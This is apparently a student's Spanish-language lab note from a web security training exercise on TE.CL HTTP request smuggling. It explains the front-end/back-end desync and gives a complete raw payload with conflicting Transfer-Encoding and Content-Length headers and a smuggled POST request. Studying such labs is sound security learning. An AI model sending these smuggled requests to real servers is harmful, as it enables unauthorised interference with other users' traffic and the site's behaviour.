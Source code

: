 En esta clase trabajamos con una variante de HTTP request smuggling basada en la combinación TE.CL, donde el front-end permite codificación chunked y el back-end no. El objetivo es verificar si existe una desincronización entre ambos servidores manipulando los encabezados de longitud y codificación de la petición.

A través de dos envíos consecutivos desde Burp Repeater, provocamos una situación donde la segunda petición se ve afectada por los restos interpretados desde la primera, desencadenando una respuesta 404 inesperada en la raíz del sitio. Esta diferencia de comportamiento confirma la presencia del fallo, lo que nos permite avanzar hacia una posible explotación completa en una clase posterior.

Solucion
entonces con BS vamos a interceptar la web y vamos a cambiar el metodo get a post y lo ponemos en http:1.1
ponemos el payload
![[Pasted image 20250807210152.png]]
POST / HTTP/1.1

Host: 0a2700a704a32a8f82dc6a1d00bb004a.web-security-academy.net

Transfer-Encoding: chunked

Content-Length: 4



38

POST /error HTTP/1.1

Content-Length: 30



testing=test

0





